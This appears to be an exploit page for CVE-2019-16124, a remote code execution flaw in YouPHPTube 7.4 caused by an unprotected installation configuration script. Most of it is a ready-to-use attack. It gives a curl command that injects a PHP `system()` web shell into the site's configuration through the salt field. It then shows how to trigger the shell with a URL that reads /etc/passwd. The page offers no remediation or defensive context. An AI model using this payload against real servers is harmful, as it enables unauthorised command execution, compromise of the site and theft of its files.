 ```yaml
---
title: CVE-2019-16124
date: {{ date }}
icon: icon-{{ title }}
background: bg-blue-400
tags:
    - exploit
    - CVE-2019-16124
categories:
    - Exploits
    - CVE
intro: YouPHPTube 7.4 Remote Code Execution
---
```


CVE-2019-16124
---------------

## Quick Info
In YouPHPTube 7.4, the file `install/checkConfiguration.php` has no access control, which leads to everyone being able to edit the configuration file, and insert malicious PHP code. To exploit this, we will generate a new malicious config file using the command below:

```
Affected Version: <=7.4
Vendor Homepage: https://www.youphptube.com/
```


## zerodays.lol payload
```shell script {.wrap}
curl -s "http://put-ip-here/install/checkConfiguration.php" --data "contactEmail=fake-email@fake.com&createTables=2&mainLanguage=RCE&salt=';system(\$_GET['bots']);echo '&systemAdminPass=zerodays.LOL&systemRootPath=/var/www/html/&webSiteRootURL=/var/www/html/&webSiteTitle=Site-Title-Here&databaseHost=127.0.0.1&databaseName=Any-DBname-Here&databasePass=&databasePort=3306&databaseUser=root"
```

## Successful Exploitation
Visit site and add param `bots=` to the URL to gain RCE. Example:

```php
http://put-ip-here/?bots=cat+/etc/passwd
```
